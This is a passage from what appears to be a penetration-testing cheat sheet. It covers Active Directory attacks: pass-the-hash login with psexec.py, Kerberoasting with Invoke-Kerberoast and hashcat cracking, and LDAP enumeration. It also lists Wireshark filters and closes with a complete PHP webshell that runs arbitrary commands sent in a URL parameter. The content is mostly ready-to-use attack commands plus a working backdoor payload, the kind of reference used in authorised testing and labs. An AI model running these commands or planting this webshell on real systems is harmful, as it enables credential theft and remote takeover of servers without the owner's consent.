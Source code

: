 - Authenticate Using a Hash:
  ```bash
  psexec.py DOMAIN/username@<ip> -hashes <hash>:<hash>
  ```

**Resources:**
- [HackTricks - Pass-the-Hash](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/pass-the-hash)

#### Kerberoasting

- Dump Service Tickets:
  ```powershell
  Invoke-Kerberoast -OutputFormat Hashcat
  ```
- Crack Tickets:
  ```bash
  hashcat -m 13100 <ticket_file> <wordlist>
  ```

**Resources:**
- [HackTricks - Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoasting)

#### LDAP Enumeration

- Query LDAP:
  ```bash
  ldapsearch -x -h <domain_controller> -b "dc=example,dc=com"
  ```

**Resources:**
- [HackTricks - LDAP Enumeration](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ldap-enumeration)

## Wireshark Filters
- ip.addr == 192.168.1.1
- ip.src == 192.168.1.1
- ip.dst == 192.168.1.1
- tcp.port == 80
- tcp.srcport == 443
- tcp.dstport == 22

- 
## Simple PHP webshell
```bash
<?php
if (isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
} else {
    echo "Use ?cmd=[command] to execute commands.";
}
?>
```
